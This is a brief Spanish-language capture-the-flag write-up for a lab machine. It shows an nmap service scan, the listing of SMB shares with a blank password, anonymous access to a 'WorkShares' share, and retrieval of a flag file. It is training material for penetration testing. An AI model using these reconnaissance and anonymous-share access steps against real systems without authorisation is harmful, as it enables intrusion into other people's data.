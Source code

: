 1. **Escaneamos los puertos más comunes y determinamos los servicios y versiones que se están ejecutando en los puertos abiertos.**
```bash
nmap -sV [target ip]
```
--> port 445/tcp - open - microsoft-ds?


2. **Vemos que está abierto el puerto de Samba. Usamos `smbclient` y listamos los shares disponibles en Samba.**
```bash
smbclient -L [target ip]
	Password: [blank]
```
-->   ADMIN$ - Disk - Remote Admin /
        C$ - Disk - Default share / 
        IPC$ - IPC - Remote IPC / 
        **WorkShares - Disk**      


3. **Nos sale que están los shares predeterminados y uno que se llama WorkShares, así que vamos a acceder a este sin contraseña:**
```bash
smbclient \\\\[target ip]\\Workshares
	Password: [blank]
```
--> **MACHINE PWNED!**


4. **Nos movemos dentro de la máquina y capturamos la flag**
```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt
```
--> Transfer completed!
